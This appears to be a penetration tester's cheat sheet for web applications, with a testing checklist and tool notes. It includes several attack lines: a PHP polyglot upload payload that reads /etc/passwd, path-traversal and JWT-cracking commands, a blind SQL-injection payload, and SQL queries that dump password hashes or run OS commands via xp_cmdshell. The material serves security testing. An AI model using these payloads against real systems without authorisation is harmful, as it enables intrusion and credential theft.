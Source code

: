 ----

###### <font style="color:#00b3ff">Methodology</font> 

```
-start a new Burp project
-burp scan
-nikto
-wafw00f
-wpscan (if wordpress)

(-sslcan / ssl labs / testssl.sh)
-dirbuster (or dirb)
-burp intruder (github list bruteforce) (with authentication cookie)
-sqlmap
-check js client code
		
-test manually the app:
	- session timeout
	- session invalidation on logout
	- concurrent session
	- username enumeration
	- account lockout
	- password complexity
	- headers, CSP
	- cookie/jwt storage
	- cookie flags
	- JWT security
	- autocomplete on forms
	- CSRF
	- Cache control
	- File Upload
	- Data input validation
	- Error verbosity
	- Burp browser DOM invader
```


###### <font style="color:#00b3ff">File Upload</font> 

```
- create polyglot file:
	-> exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" img-background1.jpg -o polyglot.php
```

###### <font style="color:#00b3ff">Content Security Policy</font> 

```
- Check CSP: https://csp-evaluator.withgoogle.com/
```

###### <font style="color:#00b3ff">XSS</font> 

```
- Check jQuery version in the console: console.log(jQuery().jquery);
```

###### <font style="color:#00b3ff">WebDAV</font> 

```
-> make request with OPTIONS header in Burp
	-> if the response gives a lot of methods there is probably WebDAV enabled
-> use: cadaver (a WebDAV client on Kali Linux)
	-> cadaver http://xxxxx.com
-> use: davtest
```

###### <font style="color:#00b3ff">HTTP Verb to test</font> 

```
COPY, DELETE, GET, HEAD, LOCK, MOVE, OPTIONS, POST, PROPFIND, PROPPATCH, PUT, REPORT, UNLOCK, TRACE
```

###### <font style="color:#00b3ff">Additional Techniques</font> 

```
- Change user agent in dirbuster
- create a brute-force list with the crunch tool
```

###### <font style="color:#00b3ff">dotdotpwn</font> 

```
-> testing the path traversal
-> dotdotpwn.pl -m http -h 192.168.1.1 -M GET
```

###### <font style="color:#00b3ff">tplmap.py</font> 

```
-> testing the Server Side template injection
```

###### <font style="color:#00b3ff">Xampp</font> 

```
-> folder and webpages are accessible in the folder htdocs/
```

###### <font style="color:#00b3ff">Waf Bypass</font> 

```
-> use censys.io to retrieve original ip from a website
```

###### <font style="color:#00b3ff">Burp Suite</font> 

```
-> Extensions: Additional CSRF Checks, Bypass WAF, Heartbleed, JSON Beautifier, JSON Web Tokens, JOSEPH, Kerberos Authentication, psychoPATH, SAML Raider Certificates, Wsdler, Session Auth, AWS Security Checks, Auto-Repeater, Authorize

-> Update CRSF tokens with Macros: https://portswigger.net/support/using-burp-suites-session-handling-rules-with-anti-csrf-tokens

-> Match/replace rule:
	- to replace {base} add filter to \{base}
```

###### <font style="color:#00b3ff">jwtcat.py</font> 

```
-> Crack a jwt token:
	-> python3 jwtcat.py -t [1st_part_token].[2nd_part_token] -w /usr/share/wordlists/rockyou.txt
```

###### <font style="color:#00b3ff">SQL Injections</font> 

```
[*] MySQL

	DB version	->	SELECT @@version;
	Hostname and IP	->	SELECT @@hostname;
	Current DB	->	SELECT database();
	List DBs	->	SELECT distinct(db) FROM mysql.db;
	Current user	->	SELECT user();
	List users	->	SELECT user FROM mysql.user;
	List password hashes	->	SELECT host,user,password FROM mysql.user;

	blind sqli get first number of version:
		-> S0000001I' AND IF(MID(@@version,1,1)='5',sleep(1),1); #

	List all columns and tables:
		-> SELECT TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA !='mysql' AND TABLE_SCHEMA !='information_schema' AND TABLE_SCHEMA !='performance_schema' AND TABLE_SCHEMA !='sys';

	To get command execution:
		-> we need to have write permission for MySQL

	mysql shell:
		-> select load_file('/etc/passwd');

	Comments 	-> 	#


	[*] MS-SQL

	DB version 	->	SELECT @@version
	Detailed version info	->		EXEC xp_msver
	Run OS Command		->		EXEC master..xp_cmdshell 'net user'
	Hostname and IP		->		SELECT HOST_NAME()
	Current DB		->		SELECT DB_NAME()
	List DBs	->		SELECT name FROM master..sysdatabases;
	Current User	->	SELECT user_name()
	List users	->	SELECT name FROM master..syslogins
	List tables		->	SELECT name FROM master..sysobjects WHERE xtype='U';
	List columns	->	SELECT name FROM syscolumns WHERE id=(SELECT id FROM sysobjects WHERE name='mytable');

	Comments 	-> 		--


	[*] PostgreSQL

	DB version	->	SELECT version();
	Hostname and IP	->	SELECT inet_server_addr()
	Current DB	->	SELECT current_database();
	List DBs		->	SELECT datname FROM pg_database;
	Current user	->	SELECT user;
	List users		->	SELECT username FROM pg_user;
	List password hashes	->	SELECT username,passwd FROM pg_shadow

	Comments 	-> 		--


	[*] ORACLE

	DB version	->	SELECT * FROM v$version;
	DB version	->	SELECT version FROM v$instance;
	Current DB	->	SELECT instance_name FROM v$instance;
	Current DB	->	SELECT name FROM v$database;
	List DBs	->	SELECT DISTINCT owner FROM all_tables;
	Current user	->	SELECT user FROM dual;
	List users	->	SELECT username FROM all_users ORDER BY username;
	List columns	->	SELECT column_name FROM all_tab_columns;
	List tables		->	SELECT table_name FROM all_tables;
	List password hashes	->	SELECT name, password, astatus FROM sys.user$;

	Comments 	-> 		--
```